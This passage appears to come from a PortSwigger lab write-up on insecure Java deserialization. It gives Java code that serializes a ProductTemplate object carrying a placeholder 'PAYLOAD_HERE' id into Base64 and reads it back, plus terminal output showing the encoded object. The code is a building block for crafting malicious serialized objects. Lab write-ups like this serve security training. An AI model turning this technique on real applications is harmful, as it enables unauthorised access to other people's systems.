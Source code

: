```java
        this.id = id;
    }

    public String getId()
    {
        return id;
    }
}
```

**`Main.java`:**
```java
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("PAYLOAD_HERE");

        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        ProductTemplate deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized id: " + deserializedObject.getId());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

**We can compile and run it:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:24:30
╰─○ javac Main.java 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:24:31
╰─○ java Main       
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQADFBBWUxPQURfSEVSRQ==
Deserialized id: PAYLOAD_HERE
```
